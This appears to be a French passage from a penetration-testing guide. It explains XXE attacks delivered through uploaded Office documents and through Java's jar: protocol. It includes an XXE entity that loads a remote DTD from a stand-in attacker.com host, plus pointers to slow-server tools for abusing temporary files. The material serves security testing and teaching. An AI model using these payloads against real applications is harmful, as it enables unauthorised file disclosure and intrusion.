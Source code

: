 ### XXE via Office Open XML Parsers

Pour une explication plus approfondie de cette attaque, **consultez la deuxième section de** [**ce post incroyable**](https://labs.detectify.com/2021/09/15/obscure-xxe-attacks/) **de Detectify**.

La capacité de **télécharger des documents Microsoft Office est offerte par de nombreuses applications web**, qui procèdent ensuite à l'extraction de certains détails de ces documents. Par exemple, une application web peut permettre aux utilisateurs d'importer des données en téléchargeant un tableau au format XLSX. Pour que le parseur puisse extraire les données du tableau, il devra inévitablement analyser au moins un fichier XML.

Pour tester cette vulnérabilité, il est nécessaire de créer un **fichier Microsoft Office contenant un payload XXE**. La première étape consiste à créer un répertoire vide dans lequel le document peut être décompressé.

Une fois le document décompressé, le fichier XML situé à `./unzipped/word/document.xml` doit être ouvert et modifié dans un éditeur de texte préféré (comme vim). Le XML doit être modifié pour inclure le payload XXE souhaité, commençant souvent par une requête HTTP.

Les lignes XML modifiées doivent être insérées entre les deux objets XML racines. Il est important de remplacer l'URL par une URL surveillable pour les requêtes.

Enfin, le fichier peut être compressé pour créer le fichier malveillant poc.docx. À partir du répertoire "unzipped" précédemment créé, la commande suivante doit être exécutée :

Maintenant, le fichier créé peut être téléchargé sur l'application web potentiellement vulnérable, et on peut espérer qu'une requête apparaisse dans les journaux de Burp Collaborator.

### Jar: protocol

Le **protocole jar** est accessible exclusivement au sein des **applications Java**. Il est conçu pour permettre l'accès aux fichiers dans une **archive PKZIP** (par exemple, `.zip`, `.jar`, etc.), s'adressant à la fois aux fichiers locaux et distants.
```
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```
> [!CAUTION]
> Pour pouvoir accéder aux fichiers à l'intérieur des fichiers PKZIP, c'est **super utile pour abuser de XXE via des fichiers DTD système.** Consultez [cette section pour apprendre à abuser des fichiers DTD système](xxe-xee-xml-external-entity.md#error-based-system-dtd).

Le processus pour accéder à un fichier dans une archive PKZIP via le protocole jar implique plusieurs étapes :

1. Une requête HTTP est faite pour télécharger l'archive zip depuis un emplacement spécifié, tel que `https://download.website.com/archive.zip`.
2. La réponse HTTP contenant l'archive est stockée temporairement sur le système, généralement dans un emplacement comme `/tmp/...`.
3. L'archive est ensuite extraite pour accéder à son contenu.
4. Le fichier spécifique dans l'archive, `file.zip`, est lu.
5. Après l'opération, tous les fichiers temporaires créés pendant ce processus sont supprimés.

Une technique intéressante pour interrompre ce processus à la deuxième étape consiste à maintenir la connexion serveur ouverte indéfiniment lors de la fourniture du fichier d'archive. Des outils disponibles dans [ce dépôt](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution) peuvent être utilisés à cet effet, y compris un serveur Python (`slow_http_server.py`) et un serveur Java (`slowserver.jar`).
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://attacker.com:8080/evil.zip!/evil.dtd">]>
<foo>&xxe;</foo>
```
> [!CAUTION]
> Écrire des fichiers dans un répertoire temporaire peut aider à **escalader une autre vulnérabilité qui implique un parcours de chemin** (comme l'inclusion de fichiers locaux, l'injection de modèles, RCE XSLT, désérialisation, etc).
